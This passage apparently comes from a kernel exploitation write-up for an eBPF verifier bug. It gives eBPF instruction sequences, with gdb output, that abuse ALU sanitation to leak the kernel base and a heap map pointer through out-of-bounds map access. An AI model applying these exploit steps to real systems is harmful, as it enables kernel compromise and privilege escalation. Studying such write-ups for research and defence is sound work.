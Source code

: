 We will use that. Currently, the pointer returned by `map_lookup_elem` (say `data_ptr`, `BPF_REG_7`) is equal to `map_ptr + 0x110`. We move `0x110` into `BPF_REG_0` and trigger the vuln to make the verifier think it's `0`, then we subtract `BPF_REG_0` from `data_ptr` to make it `map_ptr + 0x0`. The `alu_limit` calculated for this subtraction is `0` and the `alu_limit - 1` turns it into `0xffffffff` which lets us subtract `0x110` gracefully.
```c
// trigger vuln and make eBPF think we are still map_ptr + 0x110
// but in reality we're map_ptr + 0x0
BPF_MOV64_REG(BPF_REG_7, BPF_REG_0),
// ALU Sanitation will set alu_limit = 0 but alu_limit - 1 will be used
// hence any 32-bit value can be used
BPF_MOV64_IMM(BPF_REG_0, 0x110),
BPF_MOV64_IMM(BPF_REG_1, 64),
BPF_ALU64_REG(BPF_RSH, BPF_REG_0, BPF_REG_1), // the bug
BPF_ALU64_REG(BPF_SUB, BPF_REG_7, BPF_REG_0), // map_ptr + 0x110 -> map_ptr + 0x0
```
Now we read `ops` and write it at `map_ptr + 0x110` to read it from userspace.
```c
// load the ptr (kbase leak)
BPF_LDX_MEM(BPF_DW, BPF_REG_8, BPF_REG_7, 0),
// make map_ptr + 0x0 to map_ptr + 0x110
BPF_ALU64_IMM(BPF_ADD, BPF_REG_7, 0x110), 
// write array_map_ops ptr to maps_ptr + 0x110
BPF_STX_MEM(BPF_DW, BPF_REG_7, BPF_REG_8, 0),
BPF_EXIT_INSN(),
```
And we get the kbase:
```
array_map_ops: 0xffffffff820363a0
kbase: 0xffffffff81000000
```
When I stepped through program using gdb, I saw something interesting in map data:
```
gef➤  x/26gx 0xffff888004e23400   <-- map_ptr
0xffff888004e23400:     0xffffffff820363a0      0x0000000000000000
0xffff888004e23410:     0x0000000000000000      0x0000000400000002
0xffff888004e23420:     0x0000000100000150      0xffffffea00000000
0xffff888004e23430:     0xffffffff00000001      0x0000000000000000
0xffff888004e23440:     0x0000000000000000      0xffff88800392b000
0xffff888004e23450:     0x0000000000000000      0x0000000000000000
0xffff888004e23460:     0x0000000000000000      0x0000000000000000
0xffff888004e23470:     0x0000000000000000      0x0000000000000000
0xffff888004e23480:     0x0000000000000002      0x0000000000000001
0xffff888004e23490:     0x0000000000000000      0x0000000000000000
0xffff888004e234a0:     0x0000000000000000      0x0000000000000000
0xffff888004e234b0:     0x0000000000000000      0x0000000000000000
0xffff888004e234c0:     0xffff888004e234c0      0xffff888004e234c0 <-- a self-pointer
```
This is because of `bpf_map`'s member `work` (type [`work_struct`](https://elixir.bootlin.com/linux/v5.11/source/include/linux/workqueue.h#L102)). It contains a doubly-linked list (to keep track of bpf maps?). We can use it to leak `map_ptr`.
```c
// map_ptr + 0x0 -> map_ptr + 0xc0
BPF_ALU64_IMM(BPF_ADD, BPF_REG_7, 0xc0),
// load the ptr (heap leak)
BPF_LDX_MEM(BPF_DW, BPF_REG_9, BPF_REG_7, 0),
// make map_ptr + 0xc0 to map_ptr + 0x110
BPF_ALU64_IMM(BPF_ADD, BPF_REG_7, 0x50),
// write *(map_ptr + 0xc0) to maps_ptr + 0x118
BPF_STX_MEM(BPF_DW, BPF_REG_7, BPF_REG_9, 8),
```
```
array_map_ops: 0xffffffff820363a0
kbase: 0xffffffff81000000
map_ptr: 0xffff888004e1a800
```
